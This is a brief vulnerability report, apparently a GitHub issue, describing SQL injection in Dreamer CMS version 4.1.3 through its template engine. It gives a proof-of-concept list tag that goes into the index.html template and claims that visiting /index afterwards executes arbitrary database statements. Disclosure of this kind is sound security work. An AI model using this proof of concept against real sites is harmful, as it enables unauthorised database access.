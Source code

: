 Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

SQL injection exists at the template


![1695623061634](https://github.com/cloverpray/cms/assets/92020978/c25f1389-888e-4353-a847-4aa85a41a9ef)


Then modify the index.html template

![1695623093374](https://github.com/cloverpray/cms/assets/92020978/677c3712-36f7-43c1-b22e-b2ea61579684)


poc：

```
    {dreamer-cms:list typeid="9jdjs0s8" pagenum="1" pagesize="5" flag="p" formkey="h4j2gb6u" addfields="href"}
                    <li style="background:url([field:litpic/]) center 0 no-repeat;"><a target="_blank" href="[field:href/]" title="[field:title /]"></a> </li>
    {/dreamer-cms:list}
```

Access /index after saving,Can execute any database statement

![1695623186022](https://github.com/cloverpray/cms/assets/92020978/904607fa-40fa-459d-b783-52e90fb87a8d)
